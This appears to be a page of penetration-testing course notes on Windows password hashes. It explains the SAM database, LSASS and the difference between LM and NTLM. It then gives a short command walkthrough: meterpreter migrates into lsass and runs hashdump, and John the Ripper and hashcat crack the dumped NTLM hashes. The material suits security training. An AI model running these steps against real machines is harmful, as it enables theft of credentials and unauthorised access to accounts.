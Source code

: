 # 10 - Dumping & Cracking NTLM Hashes

### **Windows Password Hashes**

* The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
* Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
* Authentication and verification of user credentials facilitated by the Local Security Authority (LSA).
* Windows versions up to Windows Server 2003 utilize two different types of hashes:
  * LM
  * NTLM
* Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

**SAM Database**

* SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
* The SAM database file cannot be copied while the operating system is running.
* The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
* In modern versions of Windows, the SAM database is encrypted with a syskey.
* Note: Elevated/Administrative privileges are required in order to access and interact with the LSASS process.

**NTLM (NTHash)**

* NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
* From Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
* When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
* NTLM improves upon LM in the following ways:
  * Does not split the hash in to two chunks.
  * Case sensitive.
  * Allows the use of symbols and unicode characters.

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

### **Dumping & Cracking NTLM Hashes**

* We can dump Windows passwords hashes by leveraging various utilities like:
  * The inbuilt meterpreter “hashdump” command
  * Mimikatz
* After we have dumped the hashes, we can crack them through the use of the following utilities:
  * John The Ripper
  * Hashcat

### **Practical Demonstration**

{% code overflow="wrap" lineNumbers="true" %}
```bash
meterpreter > pgrep lsass 
meterpreter > migrate <ID> # migrate into the lsass process to get a stable meterpreter session.
meterpreter > hashdump #Dump the hashes with meterpreter
#Copy the hashes and paste them in a .txt file.

john --list=formats #List the hash formats that JohnTheRipper can crack
john --format=<hashFormat> <hashFile> --wordlist=<wordlist> #Crack a hashwith JohnTheRipper (default JTH wordlist if wordlist flag isn't specified)
john --format=NT hashes.txt --wordlist=/usr/share....

john --show --format<hashFormat> <hashFile> # Show previously cracked passwords.

hashcat -a<attackMode> -m <hashMode> <hashFile> <wordlist>
hashcat -a 3 -m 1000 hashes.txt /wordlist_path # -a(attack-mode), -m(NTLM=1000).
hashcat <previousCommand> --show #Display previously cracked passwords.
```
{% endcode %}



